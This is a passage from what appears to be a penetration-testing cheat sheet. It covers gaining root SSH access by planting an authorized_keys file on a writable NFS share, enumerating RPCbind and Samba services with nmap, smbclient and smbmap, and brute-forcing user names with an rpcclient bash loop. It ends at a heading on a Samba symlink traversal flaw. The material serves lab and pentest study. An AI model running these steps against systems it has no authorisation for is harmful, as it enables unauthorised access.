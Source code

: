 * `ssh-keygen -t rsa` - generate a pub-priv key pair on kali.
* `cat id_rsa.pub >> authorized_keys` - create a file named "authorized\_keys" then copy our created id\_rsa.pub key to it.
* `sudo cp authorized_keys /mnt/root/.ssh` - copy the authorized key file to the NFS share.
* `ssh -i id_rsa root@192.168.0.178` - login with the private key pair.
* `umount -f -l /mnt/<path>` - to unmount the share.

### <mark style="color:red;">RPCbind (111)</mark>

`nmap --script rpc-grind,rpcinfo 192.168.0.178 -p111` - enumerate the RPC portmapper.

`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.70.109` - enumerate any nfs shares.

### <mark style="color:red;">Samba (135,137,138,139,445)</mark>

`sudo nmap -sT -sU 192.168.0.178 -p135,137,138,139,445 --open` - scan for Samba netbios ports.&#x20;

`nmap --script smb-enum-shares 192.168.0.178` - enumerate Samba shares.&#x20;

or

`smbclient -L 192.168.0.178` - enumerate open shares.&#x20;

`smbmap -H 192.168.0.178` - outputs shares permissions.&#x20;

`smbclient \\\\192.168.0.178\\tmp` - accessing the shares we have access to.&#x20;

We could also mount the shares we can access.&#x20;

`mkdir /mtn/share` - create the temp share dir.&#x20;

`mount -t cifs \\\\192.168.0.178\\tmp /mnt/share` - now we can access it like a normal dir.

#### Samba Users enumeration

There are 2 methods we can use to enumerate users:

* rcclient bruteforce.
* enum4linux

1. **rpcclient bruteforce:** we can use the below bash script and also create a "users.txt" with list of usernames to check with.

```bash
#!/bin/bash

for u in $(cat users.txt); do
    rpcclient -U "" 192.168.0.178 -N \
    -c "lookupnames $u" | grep "User: 1"
done
```

2. **enum4linux**

### <mark style="color:red;">Samba Symlink Directory Traversal Vulnerability</mark>
